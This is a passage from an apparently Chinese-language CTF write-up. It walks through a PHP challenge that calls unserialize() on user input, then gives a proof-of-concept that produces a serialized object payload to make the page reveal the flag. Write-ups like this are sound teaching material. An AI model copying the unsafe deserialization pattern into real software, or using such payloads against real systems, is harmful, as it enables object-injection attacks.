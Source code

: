 

#### 2.第二关

第二关源代码如下：

```php
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=unserialize($_GET['param']);
if($a->login())
{
    echo $flag;
}
?> 
```

上面的代码的意思是包含了flag.php,并且定义了一个login方法，里面的$user要等于daydream，和$pass要等于ok，就会打印出flag，因此可以跟着构造poc：

```php
<?php
class mylogin{
    var $user = "daydream";
    var $pass = "ok";
  
}
$a = new mylogin();
$a=serialize($a);
echo $a;   // O:7:"mylogin":2:{s:4:"user";s:8:"daydream";s:4:"pass";s:2:"ok";} 
?> 
```

得到flag：

![img](assets/1654512688423-6fbf5f08-7b9a-49f9-8708-55930aec143a.png)
